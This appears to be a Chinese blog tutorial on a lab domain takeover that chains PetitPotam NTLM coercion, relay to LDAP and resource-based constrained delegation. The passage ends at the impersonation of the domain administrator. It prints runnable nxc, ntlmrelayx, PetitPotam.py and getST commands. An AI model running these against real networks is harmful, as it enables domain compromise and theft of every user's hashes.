 #### 攻击条件

*   主备域控就是常规的域环境即可，无其它额外要求。

#### 攻击流程

在本例中，经检测发现备域控存在 PetitPotam 漏洞。为此，我们可以利用该漏洞，强制让备域控以机器账户 DC2013 的身份向 kali 机器发起 SMB 认证。接着，让 kali 将该机器账户的认证信息通过 LDAP 协议中继到主域控，进而在主域控中创建一个具有委派权限（资源约束委派）的机器账户。然后，利用这个机器账户申请域管理员 administrator 的服务票据。最后，通过这张服务票据成功转储了域中所有用户的哈希。具体操作流程如下：

> 注：在这个例子中，备域控的机器账户所拥有的权限可以在主域控上登录并执行一些操作。而如果换成普通域主机 Win10 的机器账户在主域控上登录并操作的话，应该是不能够成功的。

（1）NTLM 强制认证漏洞检测。

    nxc smb 192.168.56.51 -u user -p 'password@123' -d skylark.com -M coerce_plus
    

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120046908-1800302201.png)

可以看到，PetitPotam 漏洞的检测无需提供域用户即可进行。此外，PetitPotam 漏洞的利用也不需要提供域用户。

（2）开启中继监听器。

    impacket-ntlmrelayx -t ldap://192.168.56.50 --remove-mic --delegate-access
    

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120114446-1464910488.png)

> 注：由于 PetitPotam 这类强制认证的漏洞利用都是基于 SMB 协议发起的身份认证，而我们要使用的委派功能 --delegate-access 则必须是基于 LDAP 协议的中继才行。而 impacket-ntlmrelayx 中继利用直接由 SMB 转 LDAP 一定是不成功的，这时 impacket-ntlmrelayx 工具的 --remove-mic 选项便帮上了大忙，它利用某种漏洞提供了一种 SMB 转 LDAP 的绕过方法。当然，如果这个漏洞补丁被打上了的话，那 --remove-mic 选项也无济于事了。
> 
> 通常情况下，相同协议之间的中继转发一般不会出现问题，只有不同协议之间的转发才容易出问题，例如 SMB 转 LDAP。当然也有例外，例如 SMB 转 HTTP 也不会有什么问题。

（3）执行 NTLM 强制认证利用工具。

    python PetitPotam.py -u user -p password123 -d skylark.com 192.168.56.20 192.168.56.51
    

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120138777-1618235698.png)

> 注：[PetitPotam.py](https://github.com/topotam/PetitPotam) 是一个用于触发 **Windows 系统上的认证强制** 的漏洞利用脚本，它强制目标机器向攻击者发起 NTLM 身份验证请求（SMB），以进行中继攻击（NTLM relay）。

（4）从中继攻击中提取出新创建的具有委派权限（资源约束委派）的机器账户。

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120159417-545450396.png)

可以看到，中继攻击成功执行，并且顺利创建了新的域机器账户：`NJCKANET$：hJs5by4D8xfT6KI`。

> 注：这个机器账户其实只是一个普通的账户，只不过在机器账户 DC2013 的 msDS-AllowedToDelegateTo 属性中指定了这个账户而已。因此，才使得这个机器账户具有了委派请求 cifs/dc2013.skylark.com 资源的权限。

（5）利用具有委派权限的机器账户请求域管理员用户的 ST 服务票据。

    impacket-getST -spn cifs/dc2013.skylark.com 'skylark.com/NJCKANET$' -impersonate administrator -dc-ip 192.168.56.50
    

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120343545-783072816.png)
